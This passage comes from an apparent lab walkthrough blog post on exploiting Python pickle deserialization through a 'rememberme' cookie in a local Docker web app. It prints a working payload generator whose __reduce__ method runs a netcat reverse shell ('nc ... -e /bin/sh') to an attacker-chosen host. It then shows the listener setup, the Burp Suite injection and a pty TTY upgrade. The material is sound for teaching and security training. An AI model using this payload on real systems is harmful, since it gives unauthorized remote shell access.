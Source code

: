 We need to write another script in **Python** to generate the payload as a serailized base64 encoded string. Create a new file, named `payload.py` with the following code:
```
import pickle, base64,os
lhost=input("LHOST: ")
lport=input("LPORT: ")
class payload(object):
  def __reduce__(self):
    return (os.system,(f"nc -nv {lhost} {lport} -e /bin/sh",))
deserialpayload = payload()
serialpayload = pickle.dumps(deserialpayload)
rememberme = base64.b64encode(serialpayload)
print(rememberme)
```

Again, this script is also very easy to understand just like the previous one. A class `payload` is defined which returns a system call that actually just executes netcat to connect to our host machine's terminal session where we'll be listening on the same IP(`lhost`) and Port(`lport`) that we we'll input into the script. An object `deserialpayload` is defined from this class which is then serialized and stored in `serialpayload` which is further encoded with base64 and stored in `rememberme` and get's printed.

Upon executing...
```
$ python3 payload.py
```

...we get the the final string for injection as shown below:

![15](/images/87548969-d8ba4180-c6ca-11ea-8ffc-206da19bc6fb.png)

Note the `LHOST` input which is just the IPv4 address of the host machine. Do not enter 127.0.0.1 as that will look for a netcat listener in the Docker container.

Now we simply need to start a netcat listener on the host machine by executing...
```
$ nc -lp 1337
```

![16](/images/87548972-d952d800-c6ca-11ea-81b1-a99ef63f5d10.png)

Let's fire up Burpsuite again, set the intercept on, visit http://0.0.0.0:5000/login and replace `rememberme=` value with the payload string we generated.

![17](/images/87548974-d952d800-c6ca-11ea-95c0-d5aa241b12ff.png)

We'll hit 'Forward' and get back to the netcat listener to try some commands and see if we get the connection.

![18](/images/87548979-d9eb6e80-c6ca-11ea-9f0c-12b8dad7e5b0.png)

And there we go! But hey, wait. This doesn't seem like a fancy shell. Let's try to spawn the good old TTY. In the connected netcat session, execute:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![19](/images/87548981-da840500-c6ca-11ea-91d5-7f25779aff40.png)

This spawns a typical TTY shell.

Hope you like this post. See ya till the next time!
